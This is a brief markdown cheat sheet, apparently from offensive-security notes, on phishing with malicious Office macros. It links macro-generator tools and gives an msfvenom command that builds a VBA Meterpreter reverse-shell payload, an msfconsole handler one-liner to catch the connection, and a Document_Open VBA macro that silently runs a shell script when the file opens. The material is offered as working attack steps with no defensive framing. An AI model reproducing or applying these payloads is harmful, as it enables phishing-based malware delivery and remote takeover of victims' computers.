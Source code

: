 # Email Phishing with Macros

## Macro Creation Tools

Powershell script to create an Excel file with malicious macro:
- https://gist.github.com/luca-m/6ee176881a1d93bcddb3

Malicious Macro generator utility (will create VBA files):
- https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator


## Manually
Create a VBA payload:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP/HOST> LPORT=<PORT> -f vba`

Paste into the macro module, save and ensure that the file gets accepted. Then, on the attacker machine:
`msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <IP/HOST>;set lport <PORT>;run"`


## VBA Examples

Very simple macro:
```
Private Sub Document_Open()
  MsgBox "Data is revealed.", vbOKOnly, "Data is revealed."
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```


https://medium.com/@mavrogiannispan/phishing-2-0-9f49654de4a6